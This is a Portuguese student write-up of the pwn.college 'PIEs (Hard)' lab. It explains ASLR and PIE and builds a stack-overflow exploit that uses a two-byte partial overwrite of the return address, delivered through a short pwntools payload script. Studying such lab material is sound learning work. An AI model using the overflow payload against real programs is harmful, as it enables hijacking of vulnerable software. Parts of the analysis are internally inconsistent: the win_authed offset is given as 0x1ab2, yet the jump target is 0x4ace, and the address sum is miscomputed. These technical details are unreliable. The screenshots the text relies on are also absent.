






# pwn.college — PIEs (Hard)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Intro to Cybersecurity (Orange Belt)  
> **Técnicas:** Stack buffer overflow · PIE + ASLR bypass · Partial overwrite

---

## Índice

1. [Visão Geral](#visão-geral)
2. [Contexto Teórico — ASLR e PIE](#contexto-teórico--aslr-e-pie)
3. [Análise do Binário](#análise-do-binário)
4. [Mapeamento da Stack](#mapeamento-da-stack)
5. [Identificando o Alvo](#identificando-o-alvo)
6. [Estratégia de Exploração](#estratégia-de-exploração)
7. [Payload Final](#payload-final)
8. [Execução e Flag](#execução-e-flag)
9. [Conclusão](#conclusão)

---

## Visão Geral

Este desafio introduz a exploração de binários compilados com **PIE (Position Independent Executable)** sob **ASLR**, onde os endereços absolutos das funções mudam a cada execução. A vulnerabilidade em si é um clássico **stack buffer overflow**, mas a dificuldade está em redirecionar o fluxo de execução sem conhecer o endereço base do binário.

A solução passa por entender que, embora o ASLR aleatorize a base do programa, os **offsets internos permanecem constantes** — e isso é suficiente para construir um exploit funcional com um **partial overwrite** dos bytes menos significativos do return address.

---

## Contexto Teórico — ASLR e PIE

### O que é ASLR?

ASLR (*Address Space Layout Randomization*) é uma proteção do sistema operacional que **randomiza os endereços base** das regiões de memória a cada nova execução do programa. As regiões afetadas incluem:

| Região      | Randomizada com ASLR? |
|-------------|----------------------|
| Stack       | ✅ Sim               |
| Heap        | ✅ Sim               |
| Bibliotecas | ✅ Sim               |
| Binário     | ✅ Sim (apenas com PIE) |

### O que é PIE?

Sem PIE, o binário é carregado sempre no mesmo endereço virtual — o ASLR não o afeta. Com PIE, o binário também é tratado como uma biblioteca e carregado em uma base aleatória. Isso significa que **funções como `win_authed` não têm endereço fixo**.

### O que permanece constante?

A memória é organizada em **páginas de 4096 bytes (0x1000)**. O ASLR aleatoriza a base escolhendo em qual página o binário será carregado — mas os **offsets internos** (distância entre funções, variáveis, etc.) são determinados em tempo de compilação e **nunca mudam**.

```
Execução 1:  base = 0x000056abc1230000   →   win_authed = base + 0x1ab2
Execução 2:  base = 0x000064194f993000   →   win_authed = base + 0x1ab2
Execução 3:  base = 0x00007f8832410000   →   win_authed = base + 0x1ab2
                                                              ^^^^^^^^
                                                         sempre o mesmo offset
```

Como a granularidade do ASLR é de uma página (0x1000), os **3 nibbles menos significativos** do endereço nunca variam. Apenas o **4º nibble em diante** é afetado pela aleatorização.

---

## Análise do Binário

### Funções identificadas

Ao abrir o binário no GDB (não stripped), identificam-se três funções principais:


Os endereços mostrados pelo GDB são os **offsets dentro da página**, não endereços absolutos. O offset de `win_authed` é `0x1ab2`.

### Syscall `read` vulnerável

Dentro da função `challenge`, encontra-se a chamada para `read`:



```
rdx = 4096     → número máximo de bytes lidos
rsi = <buffer> → endereço de início do buffer na stack
```

O buffer aceita até **4096 bytes**, mas é muito menor — vulnerabilidade de buffer overflow clássica.

### Endereço do buffer



O buffer começa em um endereço fixo relativo ao `rbp` da função `challenge`.

---

## Mapeamento da Stack

Com o GDB, identificamos os endereços relevantes durante a execução:



```
Início do buffer:   rbp - offset_buffer
Return address:     rbp + 0x8
```

**Cálculo do offset:**

```
return_address - início_do_buffer = 120 bytes
```

Precisamos de **120 bytes de padding** para alcançar o return address.

---

## Identificando o Alvo

Ao executar `disas win_authed`, observamos que a função contém uma verificação de argumento logo no início:



Para contornar essa verificação, apontamos o fluxo para **um endereço após o check**, cujo offset é `0x4ace` dentro da página onde o binário foi carregado.

Durante a análise no GDB, o programa estava carregado na base `0x000064194f993000`:

```
base da página:   0x000064194f993000
offset alvo:      0x4ace  →  endereço absoluto: 0x000064194f994ace
```

---

## Estratégia de Exploração

### Partial overwrite

Como o binário usa PIE, não conhecemos o endereço base em tempo de execução. A técnica de **partial overwrite** consiste em sobrescrever **apenas os bytes menos significativos** do return address.

Por quê isso funciona?

- O return address já aponta para algum lugar dentro do binário (mesmo page range)
- Os **3 nibbles menos significativos** nunca mudam com o ASLR
- O **4º nibble** pode variar, mas existe uma chance de 1/16 de acertar

Sobrescrevendo apenas 2 bytes (`\xce\x4a` em little-endian para o offset `0x4ace`), aproveitamos que:

```
Return address original:  0x000064194f993???
Após partial overwrite:   0x000064194f994ace  ← apenas os 2 LSBs foram alterados
```

> ⚠️ **Nota:** Como o 4º nibble (`4` em `0x4ace`) é afetado pelo ASLR, o exploit requer **múltiplas tentativas** — funciona quando a base da página cai em `0x...3000`, fazendo o 4º nibble resultar em `4`.

### Estrutura do payload

```
[120 bytes de padding] + [\xce\x4a]
        ^                     ^
   preenche até          2 LSBs do endereço alvo
   o return address      (little-endian)
```

---

## Payload Final

```python
from pwn import *

payload = (
    b"A" * 120 +   # padding até o return address
    b"\xce\x4a"    # partial overwrite: 2 LSBs do offset alvo (little-endian)
)

open("payload", "wb").write(payload)
```

Execução:

```bash
/challenge/binary-exploitation-pie < payload
```

---

## Execução e Flag

Nas primeiras tentativas, o programa encerrou com erros — a base da página não coincidia:



Após algumas execuções, a base da página aleatória coincidiu com a esperada e o exploit funcionou:



```
You win! Here is your flag:
pwn.college{...}
```

---

## Conclusão

Este desafio consolida o entendimento de como PIE e ASLR funcionam juntos — e, mais importante, **onde está o limite** dessa proteção.

O ASLR aleatoriza a base, mas não os offsets internos. E como a granularidade é de uma página inteira (0x1000), os 3 nibbles menos significativos são sempre previsíveis. Um atacante com capacidade de rodar o exploit repetidamente pode acertar o 4º nibble com probabilidade de 1/16 — o que, na prática, leva poucos segundos.

### Resumo técnico

| Elemento              | Valor / Técnica                         |
|-----------------------|-----------------------------------------|
| Vulnerabilidade       | Stack buffer overflow via `read`        |
| Proteção contornada   | PIE + ASLR                              |
| Técnica               | Partial overwrite (2 LSBs)              |
| Padding até RIP       | 120 bytes                               |
| Offset alvo           | `0x4ace` (pós-verificação de argumento) |
| Tentativas necessárias| Probabilidade 1/16 por execução         |

---

*Feito como parte dos estudos em Binary Exploitation no pwn.college — Engenharia de Computação e Informação, UFRJ.*
